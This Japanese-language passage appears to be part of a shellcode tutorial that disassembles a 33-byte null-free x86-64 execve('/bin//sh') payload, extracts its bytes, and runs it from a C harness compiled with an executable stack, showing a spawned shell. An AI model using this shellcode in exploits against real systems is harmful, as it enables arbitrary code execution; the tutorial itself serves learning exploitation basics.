 アセンブルして実行すると、問題なくシェルが立ち上がる。

ディスアセンブルしてみると、00がなくなっていることが確認できる
```
❯ objdump -M intel -d a.out

a.out:     ファイル形式 elf64-x86-64


セクション .text の逆アセンブル:

0000000000001000 <_start>:
    1000:	48 31 d2             	xor    rdx,rdx
    1003:	52                   	push   rdx
    1004:	48 b8 2f 62 69 6e 2f 	movabs rax,0x68732f2f6e69622f
    100b:	2f 73 68 
    100e:	50                   	push   rax
    100f:	48 89 e7             	mov    rdi,rsp
    1012:	52                   	push   rdx
    1013:	57                   	push   rdi
    1014:	48 89 e6             	mov    rsi,rsp
    1017:	48 31 c0             	xor    rax,rax
    101a:	48 8d 42 3b          	lea    rax,[rdx+0x3b]
    101e:	0f 05                	syscall 

```

```
[mizuiro@mizuiro-arch shellcode_tutorail_x86_64]$ objdump -M intel -d a.out | grep '^ ' | cut -f2 | perl -pe 's/(\w{2})\s+/\\x\1/g'
\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\x48\x8d\x42\x3b\x0f\x05
```

```
/* shell2.c */
#include <stdio.h>

int main()
{
    char shellcode[] = "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\x48\x8d\x42\x3b\x0f\x05";
    printf("sizeof(shellcode) == %d\n", sizeof(shellcode));
    (*(void (*)())shellcode)();
}
```

```
❯ gcc -z execstack shell2.c
❯ ./a.out
sizeof(shellcode) == 33
sh-5.1$ uname -a
Linux mizuiro-arch 5.10.70-1-MANJARO #1 SMP PREEMPT Thu Sep 30 15:29:01 UTC 2021 x86_64 GNU/Linux
sh-5.1$ 
```
このシェルコードは33バイトである。

